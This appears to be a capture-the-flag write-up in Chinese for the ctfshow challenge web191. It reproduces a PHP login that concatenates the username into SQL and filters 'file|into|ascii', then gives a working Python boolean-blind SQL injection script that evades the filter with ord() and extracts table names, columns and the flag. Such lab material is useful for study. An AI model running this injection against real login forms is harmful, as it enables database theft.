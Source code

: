 #### web191

```php
查询语句

  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = '{$username}'";
      
返回逻辑

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```

这题和上题一样，只是加了点ban掉了ascii

我们用ord代替ascii即可

```python
# @Author:Y4tacker
import requests

url = "http://92a52ee7-65ff-4fff-b3d9-ec90f74fd2f5.challenge.ctf.show/api/"

result = ""
i = 0

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) >> 1
        # 查数据库
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查字段
        # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'"
        # 查flag
        payload = "select group_concat(f1ag) from ctfshow_fl0g"
        data = {
            'username': f"admin' and if(ord(substr(({payload}),{i},1))>{mid},1,2)='1",
            'password': '1'
        }

        r = requests.post(url,data=data)
        if "密码错误"  == r.json()['msg']:
            head = mid + 1
        else:
            tail = mid
```